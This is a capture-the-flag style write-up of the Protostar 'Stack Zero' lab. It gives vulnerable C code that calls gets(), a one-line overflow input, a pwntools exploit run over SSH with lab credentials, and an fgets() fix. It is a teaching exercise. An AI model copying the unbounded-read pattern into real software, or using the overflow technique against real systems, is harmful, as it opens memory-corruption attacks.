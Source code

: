 # Stack Zero

This level introduces the concept that memory can be accessed outside of its allocated region, how the stack variables are laid out, and that modifying outside of the allocated memory can modify program execution.

This level is at /opt/protostar/bin/stack0

## Source Code

```c++
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>

int main(int argc, char **argv)
{
  volatile int modified;
  char buffer[64];

  modified = 0;
  gets(buffer);

  if(modified != 0) {
      printf("you have changed the 'modified' variable\n");
  } else {
      printf("Try again?\n");
  }
}
```

## Writeup

In this code we have a **buffer** of 64 char, that means is a **buffer** of 64 byte.

After this, in the Stack we have the **modified** variable of 4 byte.

We can write 64 char and add at the end the 4 byte of **modified** value.

Let's write an '**A**' 64 times and than add a 1 in the **modified** variable.

```bash
python -c "print('A' * 64 + '\x01')" | /opt/protostar/bin/stack0
```

The output of the program will be:

```bash
user@protostar:/opt/protostar/bin$ python -c "print('A' * 64 + '\x01')" | /opt/protostar/bin/stack0
you have changed the 'modified' variable
```

We know that the **modified** variable have 1 as value.

## Exploit

```python
#!/usr/bin/python3
from pwn import *

# Set up pwntools for the correct architecture
# exe = context.binary = ELF('stack0')

host = args.HOST or 'protostar'
port = int(args.PORT or 22)
user = args.USER or 'user'
password = args.PASSWORD or 'user'
remote_path = '/opt/protostar/bin/stack0'

# Connect to the remote SSH server
shell = None
if not args.LOCAL:
    shell = ssh(user, host, port, password)
    shell.set_working_directory(symlink=True)


def local(argv=[], *a, **kw):
    '''Execute the target binary locally'''
    if args.GDB:
        return gdb.debug([exe.path] + argv, gdbscript=gdbscript, *a, **kw)
    else:
        return process([exe.path] + argv, *a, **kw)


def remote(argv=[], *a, **kw):
    '''Execute the target binary on the remote host'''
    if args.GDB:
        return gdb.debug([remote_path] + argv,
                         gdbscript=gdbscript,
                         ssh=shell,
                         *a,
                         **kw)
    else:
        return shell.run([remote_path] + argv, *a, **kw)


def start(argv=[], *a, **kw):
    '''Start the exploit against the target.'''
    if args.LOCAL:
        return local(argv, *a, **kw)
    else:
        return remote(argv, *a, **kw)


# Specify your GDB script here for debugging
# GDB will be launched if the exploit is run via e.g.
# ./exploit.py GDB
#gdbscript = '''
#break *0x{exe.symbols.main:x}
#continue
#'''.format(**locals())


io = start()
payload = cyclic(64) + b'\x01'
io.sendline(payload)
log.success(io.recvline())
```

## Mitigation #1

We can use the function **fgets()** to set a limit to the number of char that will be read:

```c
fgets(buffer, 64, stdin);
```

The code will be:

```c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>

int main(int argc, char **argv)
{
  volatile int modified;
  char buffer[64];

  modified = 0;
  fgets(buffer, 64, stdin);

  if(modified != 0) {
      printf("you have changed the 'modified' variable\n");
  } else {
      printf("Try again?\n");
  }
}
```

Save the code as **stack0-fgets.c** and compile it:

```bash
gcc -fno-stack-protector -z execstack -o /opt/protostar/bin/stack0-fgets /opt/protostar/bin/stack0-fgets.c
```

This options turn off all protection agaist buffer overflow.

Set correct privileges:

```bash
chown root:root /opt/protostar/bin/stack0-fgets
chmod 4755 /opt/protostar/bin/stack0-fgets
```

If we try again the exploit, we will get:

```bash
$ python -c "print('A' * 64 + '\x01')" | /opt/protostar/bin/stack0-fgets
Try again?
```